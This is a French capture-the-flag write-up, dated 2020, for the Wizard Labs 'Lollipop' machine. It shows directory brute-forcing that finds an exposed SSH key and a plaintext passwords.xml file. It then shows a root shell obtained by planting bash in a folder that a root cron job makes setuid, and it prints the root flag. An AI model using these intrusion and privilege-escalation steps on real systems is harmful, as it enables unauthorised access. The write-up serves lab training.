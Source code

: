 # Solution du CTF Lollipop de Wizard Labs

Lollipopshell
-------------

Pour arriver à la fin de ce CTF de *Wizard Labs* il aura fallut utiliser de bonnes wordlist et enumérer les fichiers et dossier sur le serveur web.  

Pour cela j'ai porté mon dévolu sur [les listes raft de fuzzdb](https://github.com/fuzzdb-project/fuzzdb/tree/master/discovery/predictable-filepaths/filename-dirname-bruteforce).  

On trouve ainsi un dossier caché *.ssh* avec la clé qui va avec :  

```plain
/index.html (Status: 200)
/mail.php (Status: 200)
/function.php (Status: 200)
/.ssh (Status: 301)
```

Et dans les scripts on découvre aussi un script *checker.php* qui demande à recevoir le résultat de 6\*6.  

Si on rentre un résultat non numérique on obtient une erreur 500 (page type d'Apache) avec un mail d'administration *mrl0llipop@localhost*.  

Je tiens à préciser que malgré tous mes efforts ce script ne semble pas vulnérable à la moindre injection.  

La clé SSH est malheureusement protégée par une passphrase. On est alors tenté d'utiliser l'utilitaire *ssh2john* pour tenter de la retrouver :  

```plain
$ /usr/share/john/ssh2john.py id_rsa 
id_rsa:$sshng$1$16$0AF431720D358A422BF9C1D77BDF72DF$1200$f5dce6fe7--- snip ---16ec902cb75a90ab0
```

Malheureusement cela n'aboutit nul part.  

En fouillant un peu plus on trouve le commentaire suivant en commentaire dans la page d'index :  

```html
<!--Todo : store passwords using a better way than xml files  -->
```

On bruteforce alors les extensions .xml et on trouve le fichier *passwords.xml* suivant :  

```html
<text><password>:3:!4]AFCH:3#D[%</password></text>
```

Tous ces éléments réunis nous permettent un accès SSH sur la machine en tant que *mrl0llipop*.  

En fouillant les binaires setuid du système je remarque un dossier où les binaires semblent *upgradés* (notez le *s* dans les permissions) à intervalle régulier :D   

```plain
mrl0llipop@Lollip0p:/suided_binaries$ ls -l
total 184
-rwxrwxrwx 1 root root  44304 Jan  6 09:26 mount
-rwxrwxrwx 1 root root 140944 Jan  6 09:25 sudo
mrl0llipop@Lollip0p:/suided_binaries$ ls -l
total 184
-rwsrwxrwx 1 root root  44304 Jan  6 09:26 mount
-rwsrwxrwx 1 root root 140944 Jan  6 09:25 sudo
```

Moi aussi je veux jouer, on va juste copier un *bash* dans ce dossier :  

```plain
mrl0llipop@Lollip0p:/suided_binaries$ ls -l
total 204
-rwsrwxrwx 1 root root  16664 Jan  8 02:20 devloop
-rwsrwxrwx 1 root root  44304 Jan  6 09:26 mount
-rwsrwxrwx 1 root root 140944 Jan  6 09:25 sudo
mrl0llipop@Lollip0p:/suided_binaries$ ./devloop
root@Lollip0p:/suided_binaries# cd /root
root@Lollip0p:/root# cat root.txt
030bd309b88360dc270d8760a212fb0b
root@Lollip0p:/root# crontab -l
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command
* * * * * chown -R root.root /suided_binaries
* * * * * chmod -R 4777 /suided_binaries
```

Le plus dur aura été l'énumération :p

*Published November 17 2020 at 14:12*